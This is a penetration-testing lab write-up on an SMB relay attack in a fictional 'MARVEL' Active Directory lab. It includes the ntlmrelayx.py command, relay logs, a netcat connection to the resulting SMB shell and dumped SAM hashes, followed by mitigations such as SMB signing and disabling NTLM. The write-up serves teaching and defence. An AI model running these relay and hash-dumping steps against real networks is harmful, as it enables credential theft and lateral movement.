





# Part 3: SMB Relay Attack

## 3.1 Overview of the SMB Relay Attack

The **Server Message Block (SMB)** protocol is widely used in Windows environments for file sharing, printer sharing, and inter-process communication. The NTLM authentication mechanism within SMB is vulnerable to a **man-in-the-middle (MITM) relay attack** when SMB signing is not enforced. In this attack, an adversary intercepts a client's authentication attempt and forwards (relays) it to another target server, effectively authenticating as the client without ever knowing the password.

This section of the lab demonstrates a full SMB relay chain:

1. A domain user (`fCastle`) unknowingly connects to the attacker's machine (due to the previous LLMNR/NBT-NS poisoning).
2. The attacker (running `ntlmrelayx.py`) relays the captured NTLM authentication to a third machine (`172.20.10.13`).
3. Upon successful authentication, the attacker gains access to the target machine with the victim's privileges.
4. The attacker then extracts local SAM hashes and obtains an interactive SMB client shell, enabling file system exploration and lateral movement.

---

## 3.2 Attack Execution – Step by Step

### 3.2.1 Attacker Setup

The attacker starts the Impacket tool `ntlmrelayx.py` on the Kali machine (IP not shown, but residing on the same subnet as `MARVEL.local`). The command used is:

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

- `-tf targets.txt` specifies a file containing one or more target IP addresses (`172.20.10.13` in this case).
- `-smb2support` enables SMBv2 support for compatibility.

The tool spawns multiple listening servers (SMB, HTTP, RPC, MSSQL, RDP, etc.) on privileged ports.



The log output confirms that the attacker is now poised to relay any incoming NTLM authentication to the target.

### 3.2.2 Victim Triggers Authentication

Due to the earlier LLMNR/NBT-NS poisoning (or simply because the victim attempts to access a non-existent share), the victim machine (`THEPUNISHER`, IP `172.20.10.12`) with user `fCastle` initiates an SMB connection to the attacker's machine. This is visible in the logs:

```
[*] (SMB): Received connection from MARVEL/fCastle at THEPUNISHER, connection will be relayed after re-authentication
```

The attacker's SMB server receives the connection and waits for the full NTLM challenge-response exchange.



### 3.2.3 Relay to Target

Once the authentication handshake is complete, `ntlmrelayx` forwards the captured credentials to the designated target:

```
[*] (SMB): Connection from MARVEL/FCASTLE@172.20.10.12 controlled, attacking target smb://172.20.10.13
[*] (SMB): Authentication connection from MARVEL/FCASTLE@172.20.10.12 against smb://172.20.10.13 SUCCEED [1]
```

The relay succeeded—the target (`172.20.10.13`) accepted the relayed NTLM authentication as if it came directly from `fCastle`. Because `fCastle` likely has administrative privileges on the target (or at least sufficient rights), the attacker now has a valid session.


### 3.2.4 Post-Relay Exploitation

With the authenticated session, the attacker can perform several actions:

#### a) Interactive SMB Shell

The tool automatically spawns an interactive SMB client shell that listens on a local port (e.g., `127.0.0.1:11000`). The attacker connects via `netcat`:

```bash
nc 127.0.0.1 11000
```

From this shell, the attacker can list available shares (`# shares`) and then mount them (`# use C$`) to explore the file system.

```
# use C$
# ls
drw-rw-rw-    0 Tue Jul 21 12:09:50 2026 $Recycle.Bin
drw-rw-rw-    0 Wed Jul 15 14:10:56 2026 Documents and Settings
...
```



#### b) Dumping Local SAM Hashes

`ntlmrelayx.py` can also leverage the `RemoteRegistry` service to extract the Security Account Manager (SAM) database hashes. The logs show:

```
[*] smb://MARVEL/FCASTLE@172.20.10.13[1] -> Target system bootKey: 0x465491ac3ac8d44f2b7ff46f0b644e08
[*] smb://MARVEL/FCASTLE@172.20.10.13[1] -> Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrateur:500:aud3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::
Invite:501:aud3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::
DefaultAccount:503:aud3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::
WDAGUtilityAccount:504:aud3b435b51404eeaad3b435b51404ee:9160c6300791e6c8606e2296384d7c6::
Peter Parker:1001:aud3b435b51404eeaad3b435b51404ee:f56a8399599f1be040128b1dd9623c29::
```



**Observations**:
- The built-in `Administrateur` account has an NTLM hash of `31d6cfe0d16ae931b73c59d7e0c089c0`, which corresponds to a **blank password**. This is a critical misconfiguration.
- Other accounts (e.g., `Peter Parker`) have distinct hashes that can be cracked offline to obtain plaintext passwords.



---

## 3.3 Attack Scope and Implications

In this lab, the relay attack successfully elevated a standard domain user (`fCastle`) to access a target machine (`172.20.10.13`) with that user's privileges. Given that `fCastle` is a domain user, the target machine might be a domain-joined workstation or server. The attacker can:

- Read and write sensitive files (if shares are accessible).
- Extract local credentials (SAM hashes) for offline cracking.
- Use these hashes to pivot to other systems (Pass-the-Hash attacks).

The presence of an administrator account with a blank password dramatically amplifies the risk, as it allows immediate local administrative access.

---

## 3.4 Mitigation Strategies


The lab provides a clear set of countermeasures to prevent SMB relay attacks:

| Mitigation | Pros | Cons |
|------------|------|------|
| **Enable SMB Signing** on all devices | Completely stops relay attacks by ensuring integrity and mutual authentication of SMB packets. | Can degrade performance during large file transfers; older clients may not support it. |
| **Disable NTLM Authentication** network-wide | Forces Kerberos, which is immune to relay attacks (uses mutual authentication and session keys). | If Kerberos fails, Windows falls back to NTLM; requires careful configuration and testing. |
| **Account Tiering** | Limits domain admins to only log onto necessary servers, reducing the impact of a relayed admin session. | Enforcing the policy across the organization can be difficult. |
| **Local Admin Restriction** | Prevents lateral movement by ensuring standard users are not local administrators on other machines. | May increase service desk tickets due to privilege requirements for software installations. |

**Additional recommendations**:
- Use **Network Access Control (NAC)** to restrict which devices can initiate SMB connections.
- Regularly audit and rotate local administrator passwords (e.g., using Microsoft LAPS).
- Implement **strong password policies** and enforce account lockout thresholds.

---

## 3.5 Conclusion 

The SMB relay attack successfully demonstrates how an adversary can leverage a single authenticated session (obtained through LLMNR poisoning) to pivot to another machine, extract credentials, and gain file system access—all without knowledge of the victim's password. This highlights the critical importance of enforcing SMB signing and transitioning away from NTLM in modern Active Directory environments.

The attack chain illustrated in this lab is a realistic representation of a common penetration testing scenario. Organizations must apply the recommended mitigations to protect against such lateral movement and privilege escalation techniques.

---

